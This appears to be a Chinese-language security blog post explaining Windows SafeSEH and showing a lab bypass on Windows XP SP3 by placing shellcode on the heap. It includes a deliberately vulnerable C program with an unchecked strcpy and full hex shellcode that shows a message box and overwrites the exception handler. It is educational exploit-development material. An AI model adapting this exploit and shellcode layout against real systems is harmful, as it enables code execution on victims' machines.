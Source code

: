 ```yaml
---
layout: post
title: "使用堆绕过SafeSEH机制"
author: "kumqu"
---
```


## SafeSEH 对异常处理的保护原理

​	在`Windows XP SP2` 及后续的操作系统中, 微软引入了`SEH`校验机制`SafeSEH`.`SafeSEH`的原理如下: 在程序调用异常处理函数前, 对要调用的异常处理函数进行一系列的有效性校验, 当发现异常处理函数不可靠时将终止异常处理函数的调用.

​	在`VS 2003`及后续的版本中, 链接选项中的`/SafeSEH`选项是默认启用的, 这可以让编译好的程序具备`SafeSEH`功能. 启用该选项后, 编译器在编译程序的时候将程序所有的异常处理函数地址提取出来, 编入一张安全`SEH`表, 并将这张表放到程序的映像里面. 当程序调用异常处理函数的时候会将函数地址与安全`SEH`表进行匹配, 检查调用的异常处理函数是否位于安全`SEH`表中. 在`VS`命令提示行, 执行`dumpbin /loadconfig filename`可以查看程序安全`SEH`表的情况, 如下图所示: 

<img src="{{https://github.com/kumqu/kumqu.github.io/blob/master}}/assets/2019-08-02/1.PNG" alt="1" style="zoom:75%;" />

​	`SafeSEH`机制首先调用了`RtlDispatchException()`函数判断: 异常处理链是否位于当前程序栈中; 异常处理指针是否指向当前程序栈中. 若不通过都将终止异常处理函数的调用. 之后调用`RtlIsValidHandler()`函数, 其伪代码如下:

```
BOOL RtlIsValidHandler( handler )
{
    if (handler is in the loaded image)      // 在加载模块的内存空间内
    {
        if (image has set the IMAGE_DLLCHARACTERISTICS_NO_SEH flag)
            return FALSE;                    // 程序设置了忽略异常处理
        if (image has a SafeSEH table)       // 含有 SafeSEH 表说明程序启用了 SafeSEH
            if (handler found in the table)  // 异常处理函数地址在表中
                return TRUE;
            else
                return FALSE;
        if (image is a .NET assembly with the ILonly flag set)
            return FALSE;                    // 包含 IL 标志的 .NET 中间语言程序
    }

    if (handler is on non-executable page)   // 在不可执行页上
    {
        if (ExecuteDispatchEnable bit set in the process flags)
            return TRUE;                     // DEP 关闭
        else
            raise ACCESS_VIOLATION;          // 访问违例异常
    }

    if (handler is not in an image)          // 在可执行页上，但在加载模块之外
    {
        if (ImageDispatchEnable bit set in the process flags)
            return TRUE;                     // 允许加载模块内存空间外执行
        else
            return FALSE;
    }
    return TRUE;                             // 允许执行异常处理函数
}


```

​	根据上述流程, 运行异常处理函数执行的情况如下: 

* 异常处理函数在加载模块外, `DEP`关闭
* 异常处理函数在加载模块内, 相应模块未启用`SafeSEH`(安全`SEH`表为空)且不是纯`IL`
* 异常处理函数在加载模块内, 相应模块启用`SafeSEH`, 异常处理函数地址包含在安全`SEH`表中

​    因此, 绕过`SafeSEH`机制有如下方法:

* 覆盖函数返回地址. 若攻击对象启用了 `SafeSEH` 但是 没有启用 `GS` 或者存在未受` GS `保护的函数
* 利用虚函数表来绕过 `SafeSEH`
* 将 `shellcode` 部署在堆中以绕过 `SafeSEH`
* 利用未启用 `SafeSEH` 的模块绕过 `SafeSEH`
* `DEP` 关闭时，可以利用加载模块之外的地址作为跳板绕过`SafeSEH`

## 从堆中绕过 SafeSEH

​	 实验环境如下:

|   操作系统   |      `Windows XP SP3`       |
| :----------: | :-------------------------: |
|  **编译器**  |  **`Visual Studio 2008`**   |
| **编译选项** | **`DEP`关闭, 禁用优化选项** |

​	`POC`代码如下, 含义是用`shellcode`在堆中的起始地址覆盖异常处理函数地址, 然后通过除0异常调用异常处理函数: 

```
#include <stdlib.h>
#include <string.h>

char shellcode[] = "\x90...";

void test(char *input)
{
	char str[200];
	strcpy(str, input);
	int zero = 0;
	zero = 1 / zero;
}

void main()
{
	char *buf = (char *)malloc(500);
	strcpy(buf, shellcode);
	test(shellcode);
}
```

​	使用`OllyDbg`运行编译好的程序, 执行到程序中断在完成申请堆中空间的位置, 如下图所示, 寄存器`EAX`中存放着申请空间的首地址, 即地址`003907A8`是`shellcode`的首地址:

![2]({{https://github.com/kumqu/kumqu.github.io/blob/master}}/assets/2019-08-02/2.PNG)

​	然后执行到`test`函数的`strcpy`完成后, 填充的`0x90`标识出了字符串的起始地址, 即地址`0x0012FE5C`是溢出字符串的起始地址, 如下图所示:

![3]({{https://github.com/kumqu/kumqu.github.io/blob/master}}/assets/2019-08-02/3.PNG)

​	打开`SEH`链视图,  `SEH`异常处理函数指针位于`0x0012FFB0+4`的位置(`0x0012FFB0`为指向下一个`SEH`的链表指针, `0x0012FFB4`才是异常回调函数句柄), 如下图所示:

![4]({{https://github.com/kumqu/kumqu.github.io/blob/master}}/assets/2019-08-02/4.PNG)

​	因为 `0x0012FFB4 - 0x0012FE5C = 344字节`, 所以缓冲区起始地址与异常回调函数句柄之间有344字节间隙. 使用的`shellcode`布局为: 168个字节的弹出对话框的机器码; 176字节的填充`\x90`; 4字节使用`003907A8`缓冲区地址填充, 用于更改异常回调函数的句柄. 修改好的`shellcode`如下:

```
char shellcode[]=
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
"\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\xA8\x07\x39\x00"//address of shellcode in heap
;
```

​	重新编译程序, 在程序`0x003907A8`位置设置断点, `F9`运行程序到上述断点处中断. 由此可知, 已经成功绕过`SafeSEH`机制转入`shellcode`运行了. 继续运行程序, 执行`shellcode`显示弹窗, 如下图所示:

<img src="{{https://github.com/kumqu/kumqu.github.io/blob/master}}/assets/2019-08-02/5.PNG" alt="5" style="zoom:80%;" />

​	最终, 成功实现了从堆中绕过 `SafeSEH`机制.

